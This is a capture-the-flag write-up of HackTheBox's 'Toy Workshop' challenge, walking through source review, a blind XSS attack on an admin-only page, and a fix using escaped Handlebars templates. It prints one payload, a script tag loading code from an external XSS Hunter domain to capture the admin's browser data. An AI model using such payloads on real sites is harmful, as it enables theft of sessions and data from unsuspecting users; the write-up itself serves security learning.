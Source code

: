 ### Hackthebox Cyber Santa is Coming to Town: Blind XSS

Quick writeup on the "Toy Workshop" room from the Cyber Santa is Coming to Town CTF on hackthebox.com. To play with this room after the CTF is over, you will have to pay for a premium subscription

This room is a great introduction to XSS(cross-site scripting) and how to exploit it. If you aren't sure what XSS is or how it works, [check out this article from OWASP](https://owasp.org/www-community/attacks/xss/)

**TL;DR**

XSS is a vulnerability where an attacker can inject malicious code into a site that would otherwise be trusted. This usually comes in the form of untrusted user input being displayed to other users on the site without proper validation, allowing an attacker to run arbitrary code in another user's browser.

## Exploration
Started up my docker container from the hackthebox website and opened up the website at http://138.68.174.27:32309. Also downloaded the zip archive included with the challenge, which contains the source code for the website along with a dockerfile for easily launching the app on your machine. At first glance, there isn't much going on, just some cool canvas animations. The only interesting thing about the site from an attacker's perspective is a form that opens up when you click on one of the elves' heads.

![image](https://user-images.githubusercontent.com/9093725/144787692-abe082b5-8f1a-460a-ac2c-9d9d4721f5aa.png)

Tried sending a message to the manager to see what the HTTP request and response look like.

![image](https://user-images.githubusercontent.com/9093725/144788487-f8628beb-dafa-4163-99a5-e714d749ef97.png)

The request is a POST to /api/submit with the body containing a JSON object with one property, query

`{ "query": "hey what's up?" }`

The response body also contains a JSON object with a message property

`{ "message": "Your message is delivered successfully!" }`

The response also contains an ETag header, which I was not familiar with, so I decided to investigate just in case it was a possible attack vector. The ETag header contains a token that the client can use to tell the web server it has some static files cached so they do not need to be sent by the web server on subsequent requests. Seemed unlikely it could be exploited in a meaningful way, but good to know in case I run into it in the future.

Seemed likely the vulnerability was going to be a blind SQL injection or a blind XSS attack
1. The web page didn't have anything on it other than a form submission
2. There wasn't any navigation to other pages
3. The form submission displays the same message no matter what you send

Since the challenge provided me with source code for the web app, I decided to go take a look at it before doing any further testing on the website. The first thing I did was check out the `database.js` file in the root folder to see if there were database queries with unsanitized input.

![image](https://user-images.githubusercontent.com/9093725/144790954-4b68715d-a261-43fc-8f75-c4cd3ef90add.png)

There were 2 methods for accessing the database, and both of them used prepared statements, which rules out trivial SQL injection. Prepared statements make sure an untrusted value that is added to a query cannot escape the current query and add a malicious query.

Next, I went to take a look in the static, routes, and views folders to see if there were any pages of interest outside of the main page where an XSS payload might be served. In views, there were 2 files, `index.hbs` and `queries.hbs`. The .hbs file extension is a handlebars template, which is an HTML templating library for building dynamic HTML pages. The double/triple curly brackets indicate where dynamic content is going to be inserted. The `{{#each queries}}` is going to iterate over `queries` and inject each query into a paragraph tag `<p>{{{this.query}}}</p>`.

![image](https://user-images.githubusercontent.com/9093725/144796350-6c90a3ba-1600-4e48-8584-5f91687a3210.png)

Then I went to look at `index.js` in the routes folder, and there was another route besides / and /api/submit.

![image](https://user-images.githubusercontent.com/9093725/144796761-75a64cbb-7557-4b8b-b87b-48da9fc04074.png)

The route is only accessible from 127.0.0.1(localhost), so I was not able to access it from my browser. When /queries is accessed from localhost, it shows the rendered `queries.hbs` file, which is just a simple page listing of all the queries that have been sent from that user form. Looking at the /api/submit and /queries routes, it is clear there is no user input sanitization. Any HTML the user includes in their query will be stored in the database, and then rendered to the /queries page when it gets opened by the admin.

## Exploitation
Since there was no way for me to access the /queries page on my web browser, the injection will have to be blind. Of course, since I had the source code, I already had a good idea of what kind of payload would work, and I could also spin up a container of my own to test the injection. 

I decided to start with the super cool tool https://xsshunter.com. Once you create an account, you can create a custom subdomain on their `xss.ht` domain that can be used in an XSS payload to do most of the hard work. It even has a section with a bunch of suggested payloads all ready to go. Since no tags even need to be escaped, a script tag and with the src parameter set to my xss.ht subdomain should do the trick

```
<script src=https://izyisaac.xss.ht></script>
```

Popped that in the form, clicked send, waited a minute, and viola, the payload executed and I had a report of what was found on xxshunter, which included the flag, completing this challenge

![image](https://user-images.githubusercontent.com/9093725/144800514-768e1cd0-8111-48bb-8934-c19b1d4956ea.png)

## Remediation
XSS vulnerabilities are extremely common and can be quite tricky to remediate in a complex web application with many places taking user input and that input getting passed between multiple database tables. Luckily, in this example, remediation is quite simple, since this is a single input field, and that input gets stored in one database entry that only gets queried by one other page. Simply making sure everything is HTML encoded/escaped before being sent to the handlebars template should be enough to remediate the vulnerability.

Handlebars already has [built-in HTML escaping in its templates](https://handlebarsjs.com/guide/expressions.html#html-escaping), so it is incredibly simple to remove the XSS vulnerability in this web app. If we look at the `queries.hbs` template, we can see there are triple curly brackets used to render the untrusted user input to the queries page. The triple curly brackets tell handlebars to NOT HTML escape whatever is contained inside. Simply changing the triple curly brackets to double curly brackets completely remediates the vulnerability. Double curly brackets in handlebars templates tell the rendering engine to HTML escape everything contained within, so any HTML tags will just be rendered as plaintext in the browser instead of executing arbitrary code.
